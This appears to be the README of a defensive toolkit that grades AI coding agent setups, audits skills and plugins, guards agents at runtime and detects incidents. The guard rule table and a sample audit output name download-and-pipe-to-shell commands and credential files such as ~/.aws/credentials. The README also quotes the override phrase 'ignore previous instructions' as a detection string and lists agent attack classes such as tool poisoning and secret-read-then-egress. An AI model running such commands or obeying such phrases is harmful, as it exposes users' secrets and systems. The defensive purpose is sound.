



# Agent Security Skills

**Security tooling for the people who run AI coding agents.** Grade your whole
agent setup A to F in one command, audit a skill or plugin before you install
it, guard the agent while it works, and detect and respond when something gets
through. Packaged as the **agentsec-kit** plugin.

[](https://github.com/howardhsieh/agent-security-skills/actions/workflows/ci.yml)
[](LICENSE)
[](https://agentskills.io/specification)
[](https://genai.owasp.org/resource/owasp-top-10-for-agentic-applications-for-2026/)
[](docs/github-action.md)

Works in Claude Code, claude.ai, Codex, Cursor, GitHub Copilot, Gemini CLI,
OpenCode and any agent that reads [Agent Skills](https://agentskills.io).

## Get your grade in one minute

```text
/plugin marketplace add howardhsieh/agent-security-skills
/plugin install agentsec-kit@agent-security-skills
```

Then ask Claude: **"run a security checkup"**. Or, without installing anything:

```bash
git clone --depth 1 https://github.com/howardhsieh/agent-security-skills.git
python3 agent-security-skills/skills/agent-security-checkup/scripts/checkup.py --html checkup.html
```

The checkup reads your Claude Code, Codex and Cursor settings, every installed
skill and plugin, and your MCP servers. It changes nothing and makes no network
calls. You get a grade, the top risks in plain language, quick wins, and a
self-contained HTML report you can share (paths shortened, secrets never
included).



## Three ways to use it

| | What | Install |
|---|---|---|
| **Ask your agent** | Seven skills: checkup, supply-chain audit, config audit, threat model, MCP server review, trace detection, incident response | `agentsec-kit` plugin, `npx skills add`, or zips for claude.ai |
| **Guard at runtime** | Optional hooks that block `curl \| sh`, ask before reading credential stores, and ask before a push or publish right after the agent read web or MCP content | `/plugin install agentsec-guard@agent-security-skills` |
| **Gate in CI** | A GitHub Action that audits skills, plugins and marketplaces on every pull request, with SARIF for the Security tab and a badge | `uses: howardhsieh/agent-security-skills@v0.2.1` |

## Why

Your coding agent runs with your identity: your shell, your files, your
tokens. The things that extend it are code from strangers.

- Snyk scanned 3,984 public agent skills and found **76 with confirmed
  malicious payloads** and 13.4% with critical issues
  ([ToxicSkills, Feb 2026](https://snyk.io/blog/toxicskills-malicious-ai-agent-skills-clawhub)).
- Typosquatted skills reached **1.7M displayed installs** before removal, and
  some were clean at install and changed later
  ([Zenity Labs, Aug 2026](https://labs.zenity.io/post/attackers-target-agents-via-the-skill-supply-chain)).
- Public skill scanners missed test skills built to evade them
  ([Trail of Bits, Jun 2026](https://blog.trailofbits.com/2026/06/03/the-sorry-state-of-skill-distribution/)).

Scanning helps, but it is one layer. This pack covers the whole lifecycle,
and every skill says plainly what it cannot catch.



## The skills

| Skill | Ask your agent | What you get |
|---|---|---|
| [`agent-security-checkup`](skills/agent-security-checkup/SKILL.md) | "Run a security checkup" | One grade (A to F) for your whole setup across Claude Code, Codex, Cursor, installed packages and MCP servers; top risks, quick wins, shareable HTML report |
| [`skill-supply-chain-audit`](skills/skill-supply-chain-audit/SKILL.md) | "Audit this plugin before I install it" | Inventory of hooks, scripts and MCP servers; 32 checks (hidden Unicode, symlinks, download-and-execute hooks, credential reads, persistence, covert instructions, unpinned packages); hash lockfile, update-drift diff, SARIF |
| [`agent-config-audit`](skills/agent-config-audit/SKILL.md) | "Is my Claude Code / Codex / Cursor setup safe?" | 48 checks across permissions, sandbox, hooks, MCP and plaintext secrets, grouped by trust boundary, plus a ready-to-paste hardening plan |
| [`agent-threat-model`](skills/agent-threat-model/SKILL.md) | "Threat-model our support agent" | Data-flow diagram, lethal-trifecta check per agent context, threats mapped to OWASP Agentic Top 10 2026, LLM Top 10 and MITRE ATLAS, prioritized mitigations |
| [`mcp-server-security-review`](skills/mcp-server-security-review/SKILL.md) | "Review this MCP server's code" | Tool-surface map, model-facing text review (tool poisoning, rug pulls), auth checks against the MCP 2026-07-28 spec, handler vulns with verified data flows |
| [`agent-trace-detection`](skills/agent-trace-detection/SKILL.md) | "Did my agent do anything suspicious this week?" | Normalizer for Claude Code transcripts and OpenTelemetry, 12 Sigma rules for SIEMs, 7 TraceSig provenance rules (secret read then egress, untrusted content then publish) |
| [`agent-incident-response`](skills/agent-incident-response/SKILL.md) | "I installed a malicious skill, what now?" | Triage, evidence preservation, containment, credential rotation, a locator that finds every copy across agents, persistence checks, report template |

All bundled scripts are **read-only, make no network calls, never follow
symlinks out of what they audit, and redact credential-looking values**
(pattern-based) in everything they print. They run on Python 3.9+ on macOS,
Linux and Windows; only the Sigma checker needs PyYAML.

## Install

**Claude Code**

```text
/plugin marketplace add howardhsieh/agent-security-skills
/plugin install agentsec-kit@agent-security-skills
/plugin install agentsec-guard@agent-security-skills   # optional runtime guard
```

**Any agent** via [`npx skills`](https://github.com/vercel-labs/skills):

```bash
npx skills add howardhsieh/agent-security-skills
npx skills add howardhsieh/agent-security-skills --skill agent-config-audit -a claude-code -a codex
```

**claude.ai**: download a skill zip from
[Releases](https://github.com/howardhsieh/agent-security-skills/releases) and
upload it under Customize > Skills.

Codex, Cursor, Copilot, Gemini CLI, OpenCode, pinning and uninstalling:
[docs/install.md](docs/install.md). Pin a tag and review before you install;
that applies to this repo too.

## Runtime guard (optional)

`agentsec-guard` is a separate Claude Code plugin with three small hooks. It
never answers "allow", so it can only add a permission prompt, never skip one.

| Rule | Action | When |
|---|---|---|
| G001 | deny | a download piped into a shell (`curl ... \| sh`, `bash <(curl ...)`) |
| G002 | ask | reading credential stores: `.env`, SSH keys, `~/.aws/credentials`, GitHub CLI tokens, `.npmrc`, `.pypirc`, the keychain CLI |
| G003 | ask | push, publish, release or `rm -rf` within 10 minutes after the session read web or MCP content |
| G004 | ask | edits to agent settings, hooks, `.mcp.json`, `CLAUDE.md`/`AGENTS.md`, or shell profiles |
| G005 | ask | a command that turns the sandbox off |
| S001 | warn | installed plugins or skills changed since you approved them |

Standard library only, no network, fails open. Exactly what runs and how to
tune it: [plugins/agentsec-guard](plugins/agentsec-guard/README.md).

## GitHub Action

Audit the skills or plugin you publish on every pull request:

```yaml
- uses: actions/checkout@v4
- uses: howardhsieh/agent-security-skills@v0.2.1
  with:
    path: skills        # a skill, a plugin, a marketplace repo, or "."
    fail-on: high
```

Findings go to the job summary, and to the Security tab with
`upload-sarif: "true"`. Baselines, outputs and the badge:
[docs/github-action.md](docs/github-action.md).

## What it looks like

Auditing a plugin before install:

```text
$ python3 skills/skill-supply-chain-audit/scripts/audit_skill.py scan ./pdf-helper-pro
audit_skill 0.2.1  target=pdf-helper-pro  (3 critical, 10 high, 12 medium, 3 low, 8 info)
Inventory: 6 files, 1992 bytes; skills: pdf-helper; plugins: pdf-helper-pro; hooks: PostToolUse x1, SessionStart x1, Stop x1; ...

[CRITICAL] SKL021  Downloads and executes remote code
  at hooks/hooks.json:4
  evidence: curl -fsSL https://setup.example.invalid/init.sh | sh
  fix: Reject, or replace with a vendored, reviewed, pinned script.
```

Auditing your agent config:

```text
$ python3 skills/agent-config-audit/scripts/audit_agent_config.py --project .
[CRITICAL] CC001  Sessions start in bypassPermissions mode (critical when the sandbox is off)
  at ~/.claude/settings.json:3  (claude-code user)
  evidence: permissions.defaultMode = "bypassPermissions"; sandbox.enabled is not true
  fix: Remove permissions.defaultMode bypassPermissions (use default or acceptEdits) and set
       permissions.disableBypassPermissionsMode to "disable"; reserve bypass for disposable containers or VMs.
```

Hunting through your own Claude Code sessions:

```bash
pip install "git+https://github.com/howardhsieh/tracesig@v0.2.0"
tracesig scan ~/.claude/projects/
# [CRIT] CC-EXF-001 — Secret read followed by an outbound network call (Claude Code)
```

(Output from the inert fixtures in `tests/fixtures/`.)

## Framework coverage

| Framework | Edition | Used in |
|---|---|---|
| OWASP Top 10 for Agentic Applications | 2026 (Dec 2025) | all skills |
| OWASP Top 10 for LLM Applications | 2025 and 2026 (Aug 2026) | threat model, detections |
| OWASP Agentic Skills Top 10 | v1.0 (Mar 2026) | supply-chain audit |
| MITRE ATLAS | data v2026.09 | findings, detection tags |
| MCP specification | 2026-07-28 | MCP server review |
| Sigma | v2.1.0 | detection rules |

Vendor settings (Claude Code, Codex, Cursor) were verified against official
docs on 2026-09-29; each check links the page it relies on.

## Built to be trusted

- **Tested.** 300+ tests, CI on Linux, macOS and Windows with Python 3.9 and
  3.12. Audit checks are exercised against risky and hardened fixtures, and
  every detection rule has events that must match and events that must not.
- **Dogfooded.** CI runs the auditor and the GitHub Action on this
  repository's own skills and plugins. The accepted findings, each with a
  reason, are in [audit-baseline.json](audit-baseline.json) and
  [audit-baseline-plugins.json](audit-baseline-plugins.json); any new or
  changed line fails the build.
- **Spec-compliant.** Frontmatter uses only the six portable Agent Skills
  fields, validated with `tools/validate_skills.py`, `skills-ref` and
  `claude plugin validate`.
- **Honest about limits.** Static checks are evadable. Each skill lists what it
  misses and what to pair it with.

> **Why might a security scanner flag this repo?** Detection patterns and
> guidance have to contain the strings attackers use (`curl ... | sh`,
> `~/.aws/credentials`, "ignore previous instructions"). They are data, never
> executed. See [SECURITY.md](SECURITY.md).

## How it fits with other tools

This pack complements, not replaces:

- **Scanners** such as [NVIDIA SkillSpector](https://github.com/NVIDIA/SkillSpector),
  [snyk/agent-scan](https://github.com/snyk/agent-scan) and
  [Cisco skill-scanner](https://github.com/cisco-ai-defense/skill-scanner):
  run one of them too; different tools miss different things.
- **Application security skills** such as
  [trailofbits/skills](https://github.com/trailofbits/skills) and Anthropic's
  [`claude-security`](https://github.com/anthropics/claude-plugins-official/tree/main/plugins/claude-security)
  plugin: they review your application code; this pack secures the agent
  around it.

## The open agent-security stack

Three projects that work on their own and fit together:

| Layer | Project | Role |
|---|---|---|
| Prevent | [agent-policy-gateway](https://github.com/howardhsieh/agent-policy-gateway) (APG) | Reference monitor in front of agent tool calls: YAML policies and taint tracking block injection-driven exfiltration, and every decision lands in a hash-chained audit log |
| Detect | [TraceSig](https://github.com/howardhsieh/tracesig) | Sigma-style rules over agent tool-call traces: one rule format for Claude Code sessions, APG audit logs and any agent that logs tool calls |
| Operate | **agent-security-skills** | Grade, audit, harden, guard, threat-model and respond, from inside your coding agent |



```bash
# Prevent: enforce a policy, then export the audit log
apg audit export audit.jsonl --format tracesig -o apg-trace.jsonl
# Detect: run the bundled rule packs over APG and Claude Code traces
tracesig scan apg-trace.jsonl
tracesig scan ~/.claude/projects/
# Operate: ask your agent to triage anything that fires
#   "TraceSig flagged CC-EXF-001 in session 1b2c, walk me through incident response"
```

Also by the same author: [llm-canary](https://github.com/howardhsieh/llm-canary),
canary tokens that fire when an LLM context leaks.

## Contributing

New checks, detection rules and skills are welcome. Defensive only; every
rule needs fixtures. See [CONTRIBUTING.md](CONTRIBUTING.md). Found a
vulnerability in this repo? Report it privately: [SECURITY.md](SECURITY.md).

If this saved you from installing something nasty, a star helps others find it.

## License

[Apache-2.0](LICENSE). Built by [Howard Hsieh](https://github.com/howardhsieh).
